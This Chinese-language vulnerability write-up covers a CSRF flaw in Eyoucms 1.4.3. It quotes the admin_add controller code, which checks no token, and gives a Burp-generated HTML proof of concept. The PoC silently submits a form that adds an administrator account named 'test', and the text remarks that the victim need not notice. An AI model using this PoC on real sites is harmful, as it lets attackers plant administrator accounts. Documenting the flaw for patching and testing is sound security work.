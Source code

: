 ```yaml
---
title: Eyoucms 1.4.3 csrf漏洞
id: zhfly2926
---
```


# Eyoucms 1.4.3 csrf漏洞

## 一、漏洞简介

可通过csrf漏洞添加管理员

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

```
 public function admin_add()
 {
     $this->language_access(); // 多语言功能操作权限

```
 if (IS_POST) {
     $data = input('post.');

     if (0 &lt; intval(session('admin_info.role_id'))) {
         $this-&gt;error("超级管理员才能操作！");
     }

     if (empty($data['password']) || empty($data['password2'])) {
         $this-&gt;error("密码不能为空！");
     }else if ($data['password'] != $data['password2']) {
         $this-&gt;error("两次密码输入不一致！");
     }

     ...

     if (empty($data['pen_name'])) {
         $data['pen_name'] = $data['user_name'];
     }
     if (M('admin')-&gt;where("user_name", $data['user_name'])-&gt;count()) {
         $this-&gt;error("此用户名已被注册，请更换",url('Admin/admin_add'));
     } else {
         $admin_id = M('admin')-&gt;insertGetId($data);
         if ($admin_id) {
             adminLog('新增管理员：'.$data['user_name']);

             /*同步追加一个后台管理员到会员用户表*/
             try {
                 $usersInfo = Db::name('users')-&gt;field('users_id')-&gt;where([
                         'username'  =&gt; $data['user_name'],
                         'lang'      =&gt; $this-&gt;admin_lang,
                     ])-&gt;find();
                 if (!empty($usersInfo)) {
                     $r = Db::name('users')-&gt;where(['users_id'=&gt;$usersInfo['users_id']])-&gt;update([
                             'nickname'      =&gt; $data['user_name'],
                             'admin_id'      =&gt; $admin_id,
                             'is_activation' =&gt; 1,
                             'is_lock'       =&gt; 0,
                             'is_del'        =&gt; 0,
                             'update_time'   =&gt; getTime(),
                         ]);
                     !empty($r) &amp;&amp; $users_id = $usersInfo['users_id'];
                 } else {
                     // 获取要添加的用户名
                     ...

                     $users_id = Db::name('users')-&gt;insertGetId($AddData);
                 }
                 if (!empty($users_id)) {
                     Db::name('admin')-&gt;where(['admin_id'=&gt;$admin_id])-&gt;update([
                             'syn_users_id'  =&gt; $users_id,
                             'update_time'   =&gt; getTime(),
                         ]);
                 }
             } catch (\Exception $e) {}
             /* END */

             $this-&gt;success("操作成功", url('Admin/index'));
         } else {
             $this-&gt;error("操作失败");
         }
     }
 } 
``` 
```

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项>管理员>新增管理员点击之后截包

![image](../img/c0114e965333c201d40f9dbd967a234d.png)

### poc

```
 <html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
 <script>history.pushState('', '', '/')</script>
     <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
     <input type="hidden" name="user&#95;name" value="test" />
     <input type="hidden" name="password" value="test" />
     <input type="hidden" name="password2" value="test" />
     <input type="hidden" name="pen&#95;name" value="" />
     <input type="hidden" name="true&#95;name" value="" />
     <input type="hidden" name="mobile" value="" />
     <input type="hidden" name="role&#95;id" value="&#45;1" />
     <input type="submit" value="Submit request" />
     </form>
 </body>
 </html> 
```

模拟管理员点击

![image](../img/6f29d8ae7cdf975e613ac1f725e70481.png)

添加完成

![image](../img/a8263a53ff77639fc1daa27db8c60d73.png)